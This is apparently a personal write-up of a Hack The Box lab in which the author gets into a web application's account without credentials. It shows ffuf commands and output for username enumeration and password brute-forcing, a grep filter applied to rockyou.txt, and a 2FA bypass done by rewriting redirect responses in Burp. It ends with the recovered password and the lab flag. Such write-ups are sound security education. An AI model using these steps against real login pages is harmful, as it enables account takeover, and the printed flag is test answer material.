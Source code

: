 ```yaml
---
sticker: emoji//1faaa
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. For the assessment, the client has not provided you with credentials. Apply what you have learned in this module to obtain the flag.

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215140214.png)

Let's begin by checking the website:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215140227.png)

We have a login functionality, let's check it out:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215140248.png)

We can begin by registering a new account and checking the behavior in burp:

```ad-note
`test`:`test`
```

If we do those credentials, we get the following:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215140815.png)


Now we know the password policy, it goes like this:

```ad-important
Password does not meet our password policy:
    Contains at least one digit
    Contains at least one lower-case character
    Contains at least one upper-case character
    Contains NO special characters
    Is exactly 12 characters long
```

Nice, let's register an account that goes like that:

```ad-note
`test`:`Passw0rd1123`
```

We can now test how it looks like when a valid username goes through the application:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215155348.png)

We get `Invalid credentials`, what if we use an invalid user:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215155424.png)

Now we get another error `Unknown username or password.`, once we know this, we can use ffuf in order to fuzz for valid usernames:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username or password." -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=test
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 196ms]
```

We got a valid username:

```
gladys
```

Now, with the valid username, we can try to brute-force the password creating a custom wordlist matching the password policy, let's grep the `rockyou.txt` wordlist:

```
grep -P '^(?=.*[0-9])(?=.*[a-z])(?=.*[A-Z])[A-Za-z0-9]{12}$' /usr/share/wordlists/rockyou.txt > filtered_rockyou.txt
```

This will filter `rockyou` wordlist to match the password policy, now let's use ffuf:


```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200
```


After a while, we get this:

```
ffuf -w filtered_rockyou.txt -u http://94.237.55.157:40800/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.55.157:40800/login.php
 :: Wordlist         : FUZZ: /home/samsepiol/filtered_rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid credentials
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 156ms]
```

We got credentials:

```ad-note
`gladys`:`dWinaldasD13`
```

If we try to log in, we can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215160432.png)

We are redirected to `/2fa.php`, we need to bypass it, let's do the following:

Let's start by sending a request and checking the behavior:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215160533.png)

If we send an invalid OTP, we get `Invalid OTP` error, knowing this, let's create a list of OTPs and fuzz:

```
seq -w 0 9999 > tokens.txt
```

```
ffuf -w tokens.txt -u http://94.237.55.157:40800/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=k0p7io2i4ucilmknkgt9m2ukd5" -d "otp=FUZZ" -fr "Invalid OTP" -ic -c -t 200
```

After a while, we are unable to get any OTP by fuzzing, which means, this is not the intended path to take, that's when logging into our `test` account is truly helpful, if we log in, we can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215164723.png)

We are redirected to `/profile.php` instead of `/2fa.php`, that means that if we're able to change the `Location` to `/profile.php` on glady's account, we'd be able to bypass the 2fa code requirement, let's do it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215164842.png)

`Do intercept -> Response to this request`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215164923.png)

Now, change `Location` to `/profile.php`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215165100.png)

Forward and `Do intercept -> Response to this request` again:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215165141.png)

We get a GET request, we need to intercept this one too and change status code to `200` and `location` to `/profile.php` again:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215165225.png)

After forwarding the request, this happens:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215165242.png)

We get access to glady's account and got the flag:

```
HTB{d86115e037388d0fa29280b737fd9171} 
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250215165319.png)


